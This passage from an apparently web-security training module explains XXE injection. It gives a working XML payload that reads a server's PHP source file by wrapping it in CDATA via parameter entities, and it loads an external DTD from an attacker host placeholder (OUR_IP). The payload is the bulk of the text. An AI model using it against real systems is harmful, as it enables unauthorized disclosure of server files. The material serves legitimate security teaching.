 Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

**[Blind Data Exfiltration](https://academy.hackthebox.com/module/134/section/1207)**